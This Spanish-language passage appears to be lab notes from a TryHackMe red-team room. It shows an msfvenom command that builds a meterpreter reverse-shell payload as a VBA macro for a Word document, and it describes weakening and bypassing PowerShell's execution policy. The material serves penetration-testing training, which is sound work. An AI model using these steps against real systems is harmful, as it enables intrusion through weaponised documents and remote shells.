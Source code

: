 Ejecutamos con F5

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920215941.png' | relative_url }}" text-align="center"/>
</div>

De esta forma, podemos hacer algo más sofisticado con MsfVenom. Ahora vamos a crear un payload meterpreter en memoria utilizando el marco Metasploit para recibir una reverse shell. Primero, desde AttackBox, creamos nuestr payload meterpreter usando msfvenom. 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
```

se debe realizar una modificación para que esto funcione. La salida estará trabajando en una hoja de Excel de MS. Por lo tanto, cambie *Workbook_Open()* a *Document_Open()* para que sea adecuado para documentos de MS Word.

Así, copiamos el output del comando y lo guardamos como Macros y antes de ejecutarlo preparamos un listener para recibir la conexión:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220920220621.png' | relative_url }}" text-align="center"/>
</div>

<br />

**PowerShell - PSH**

PowerShell es un lenguaje de programación orientado a objetos que se ejecuta desde Dynamic Language Runtime. Con PowerShell existen una gran variedad de opciones para un atacante que se han cubierto en el path 1.Scripting for Pentesters. Aquí sin embargo queremos tratar medidas de seguridad que Windows tiene para prevenir la ejecución maliciosa de PowerShell:

- *Execution Policy*: La Execution Policy es una opción de seguridad que protege al sistema de la ejecución de scripts maliciosos, de esta forma y por defecto, Microsoft deshabilita la ejecución de scripts de PowerShell (.ps1) por propósitos de seguridad.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220921104520.png' | relative_url }}" text-align="center"/>
</div>

Aunque sin embargo, podemos deshabilitar la execution policy de la siguiente manera:

```powershell
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220921104622.png' | relative_url }}" text-align="center"/>
</div>

<br />

- *Bypass Execution Policy*: Microsoft provee de un modo de deshabilitar esta restricción. Por ejemplo desde una CMD podemos ejecutar el comando Powershell con el modificador -ex bypass para ejecutar un fichero:

